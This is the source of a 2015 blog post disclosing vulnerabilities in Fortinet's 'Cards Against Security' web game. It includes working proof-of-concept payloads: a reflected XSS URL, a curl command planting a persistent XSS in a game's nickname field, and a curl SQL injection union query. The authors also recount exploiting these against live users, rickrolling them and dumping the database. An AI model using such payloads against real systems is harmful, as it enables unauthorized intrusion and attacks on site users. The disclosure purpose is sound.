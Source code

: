 ```yaml
---
layout: post
title: "Cards Against Security - Persistent XSS and Other Issues"
date: 2015-07-30
categories:
---
```


*By slipstream/RoL, IceMans- and David Davidson.*

# Overview
Earlier in this week, [Fortinet][fortinet] launched the [Cards Against Security][cardsagainstsecurity] online game, a [Cards Against Humanity][cardsagainsthumanity] clone with an Infosec twist. This kind of thing usually tends to happen around the "conference season". As it happened, this application suffered a number of rather severe security vulnerabilities which we were able to exploit for great justice. The application was taken offline following exploitation.

# Issues

## 1. Reflected XSS
The /?g= endpoint was vulnerable to reflective XSS:
{% highlight bash %}
http://www.cardsagainstsecurity.com/?g=<script>alert(1);</script>
{% endhighlight %}

## 2. Persistent XSS
The http://casbeta.herokuapp.com/process.php endpoint had several AJAX requests. The "spectategame" action could be passed a script tag in the "nickname" parameter, and this would execute the XSS on everybody playing or spectating in a random public game, if they viewed the chat or player list (which in most cases was automatic).

PoC: 
{% highlight bash %}
curl --data "action=spectategame&user=1337&nickname=<script>alert('fix me');</script>" http://casbeta.herokuapp.com/process.php 
{% endhighlight %}

This XSS was used to redirect anyone playing or watching a public game to a YouTube video of Rick Astley - Never Gonna Give You Up.

## 3. SQL Injection
Another of the AJAX requests was the "getblackcard" action, which was vulnerable to SQL injection in the "game" parameter.

PoC: 
{% highlight bash %}
curl -i --data "action=getblackcard&game=1 union select 1,2,3,@@version-- -" "http://casbeta.herokuapp.com/process.php"
{% endhighlight %}

This SQL injection was used to dump all of the white and black cards from Cards against Security's database.

# Video of Persistent XSS
<iframe width="560" height="315" src="https://www.youtube.com/embed/yhBqfaHTLPE" frameborder="0" allowfullscreen></iframe>

# Conclusion
Had we been a malicious bunch, we could have easily, instead of redirecting to a rickroll, injected an iFrame that did things like, say, redirect users silently to browser exploits, and conducted an unauthorized penetration test of the userbase of this application. Given the users were all infosec people, this was potentially an excellent watering-hole attack vector specifically for targetting the security industry. While Fortinet have implied that the vulnerabilities were deliberate, this is a wholly irresponsible approach for a vendor to take as it implies that they don't care that they put a bunch of their industry peers at risk. Our advice to people is quite simple: Don't blindly go clicking on, and trusting, random webapps that crop up for novelty purposes. Furthermore, we intend on releasing a not-vulnerable version of the game with an expanded card-deck shortly for you all to enjoy :)

As a final note, [Fortinet have some SSL issues to sort out][fortissl] <3

[fortinet]: http://www.fortinet.com/
[cardsagainstsecurity]: http://www.cardsagainstsecurity.com
[cardsagainsthumanity]: https://cardsagainsthumanity.com/
[fortissl]: https://www.ssllabs.com/ssltest/analyze.html?d=fortinet.com
